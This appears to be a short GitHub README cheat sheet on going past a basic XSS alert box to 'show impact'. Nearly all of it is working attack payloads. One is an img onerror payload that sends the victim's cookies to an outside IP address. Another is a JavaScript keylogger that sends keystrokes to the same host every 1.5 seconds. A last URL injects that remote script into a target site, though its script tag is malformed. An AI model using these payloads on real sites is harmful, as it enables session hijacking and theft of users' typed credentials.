 # Beyond alert
Going beyond the alert('xss')

## Info

After getting your xss alert box, what's next? This is not usually enough to "show impact", so on the good stuff!

## Techniques (code)

- Cookie Stealer
```js
<img src=x onerror=this.src='http://5.5.5.5/?cookie='+document.cookie>
```



- Record key stokes
Add this to a js file
```js
var data = '';
document.onkeypress = function(e) {
  var w = window.event ? event : e;
  var keystroke = w.keyCode ? w.keyCode : w.charCode;
  keystroke = String.fromCharCode(keystroke);
  data = data + keystroke;
}
window.setInterval(function(){
    new Image().src = 'http://5.5.5.5/?c=' + data;
    data = '';
}, 1500);
```
Then call the script in using xss
```js
http://target.site/welcome.php?user=admin<script src>'http://5.5.5.5/keylogger.js'></script>
```

